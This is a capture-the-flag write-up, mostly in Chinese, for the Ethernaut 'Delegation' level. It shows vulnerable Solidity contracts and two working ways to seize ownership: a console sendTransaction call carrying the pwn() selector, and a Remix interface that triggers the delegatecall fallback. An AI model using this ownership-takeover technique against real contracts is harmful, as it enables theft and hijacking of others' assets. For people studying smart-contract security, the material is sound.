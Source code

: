 The goal of this level is for you to claim ownership of the instance you are given.

 Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```









这个很明显就是触发Delegation合约中的fallback函数，delegatecall到Delegate合约中的pwn方法，因为这两个合约有相同的内存分布，所以pwn执行***owner = msg.sender***会把Delegation中的owner更新为msg.sender，也就是我们自己（player），所以要触发Delegation的fallback，执行contract.sendTransaction就行了，其中参数是根据web3js库的sendTransaction来调用的

https://web3js.readthedocs.io/en/v1.7.5/web3-eth-personal.html?highlight=sendtransaction#sendtransaction

第一种方法：在puzzle页面的console中执行下边的代码

contract.sendTransaction({data:web3.eth.abi.encodeFunctionSignature("pwn()")})



第二种方法：在remix中执行

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Delegation {
    function pwn() external;
}
```

![](delegationattack.png)

我们这里编写一个interface，然后从console中获得instance的地址，选择Delegation接口，点击At Address，实际上这个合约是上边Delegation，但是我们这里使其具有一个虚拟的pwn方法，如果我们点击pwn，因为实际上的Delegation合约中没有pwn方法，所以会触发fallback函数，fallback中执行delegatecall到Delegate合约中，而delegatecall中的参数就是remix帮我们构建好msg.data，所以会直接执行Delegate合约中的pwn方法，执行之后会将实际上Delegation合约中的owner更新为我们的钱包地址

注意：这里要提高Gas limit，不然会因为out of gas导致执行失败




